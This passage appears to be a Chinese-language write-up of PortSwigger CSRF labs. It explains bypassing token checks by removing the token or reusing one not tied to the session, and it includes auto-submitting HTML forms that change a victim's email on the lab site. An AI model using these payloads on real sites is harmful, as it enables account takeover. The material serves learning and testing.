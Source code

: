 ```html
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

這題跟 [Lab: CSRF vulnerability with no defenses](#lab-csrf-vulnerability-with-no-defenses) 的答案一樣，但隱藏在後端的檢核邏輯不一樣，也算是學到一個新的攻擊手法，直接把 CSRF Token 的 Key Value 都拿掉，看看能不能 Bypass 後端的檢核邏輯

## Lab: CSRF where token is not tied to user session

| Dimension | Description                                                                                                     |
| --------- | --------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#csrf-token-is-not-tied-to-the-user-session |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session         |

基礎題，在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <form
      action="https://0ab2007a0355f1d980882b2700e200a9.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener3@normal-user.net"
        required
      />
      <input
        type="hidden"
        name="csrf"
        value="iCYrbvKBVvwhZvsHarL2UVEMB27LU4jB"
        required
      />
      <button type="submit">Submit</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
